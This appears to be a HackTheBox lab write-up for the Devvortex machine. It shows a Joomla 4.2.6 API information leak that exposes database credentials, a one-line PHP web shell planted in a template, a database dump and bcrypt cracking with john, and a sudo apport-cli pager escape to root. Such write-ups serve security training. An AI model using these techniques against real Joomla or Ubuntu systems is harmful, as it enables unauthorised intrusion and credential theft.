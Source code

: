 # HackTheBox: [Devvortex](https://app.hackthebox.com/machines/Devvortex)

> [!tip] Summary with Spoilers
> This was an exercise to use an information leak to gain a foothold on a common CMS, which can then be leveraged into an interactive shell, database access to retrieve password hashes, an easy-to-brute password for the admin's shell account, and then a simple privilege escalation to root.

A full `nmap` scan finds only ports 22 and 80. The web server redirects to `devvortex.htb`, so I add that to `/etc/hosts`.

A `ffuf` scan uncovered a `dev.devvortex.htb` vhost, so I add that as well.

The `dev` site is running Joomla version 4.2.6:

```xml
$ curl http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>4.2.6</version>
        <creationDate>2022-12</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
[...]
```

This version has an [information leak](https://vulncheck.com/blog/joomla-for-rce) that exposes admin credentials:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The credentials above don't work for `ssh`, unfortunately.

But, they work for <http://dev.devvortex.htb/administrator/index.php>.

There's also a user `logan`:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/users?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2023-11-27 18:43:58","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```

I added a PHP web shell to the `error.php` template:

![](_/htb-devvortex-20232711-2.png)

Web shell above is this: `if(isset($_GET['cmd'])) { system($_GET['cmd']); }`

Visiting `http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id` works:

![](_/htb-devvortex-20232711-3.png)

From there I'm able to launch a URL-encoded `python3` reverse shell for an interactive cmdline. I connect to the `mysql` instance using the credientials I discovered via the information leak mentioned above, and I dump the `users` table to grab password hashes:

```sql
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-27 18:43:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

`john` finds the password quickly:

```console
$ john --wordlist=~/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequie[...]      (?)     
1g 0:00:00:04 DONE (2023-11-27 13:23) 0.2028g/s 284.7p/s 284.7c/s 284.7C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And that gives me the user flag:

```text
www-data@devvortex:~$ su - logan
su - logan
Password: tequie[...]

logan@devvortex:~$ cat user.txt
cat user.txt
87a817[...]
```

Checking for `sudo` privileges:

```text
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`apport-cli` is a crash-reporting utility. This version is vulnerable to the pager-escape trick if run via `sudo`:

First I look for a crash report to use with the tool:

```text
logan@devvortex:~$ find / -name '*.crash' 2>/dev/null
/var/crash/_usr_bin_apport-cli.0.crash
```

with that I'll run `apport-cli` via `sudo` and wait for `less` to pause the output, and then I use `!sh` to spawn a root shell for the flag:

```console
logan@devvortex:~$ sudo /usr/bin/apport-cli /var/crash/_usr_bin_apport-cli.0.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
[... lots of output, eventually less is triggered ...]
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e49cc7[...]
```
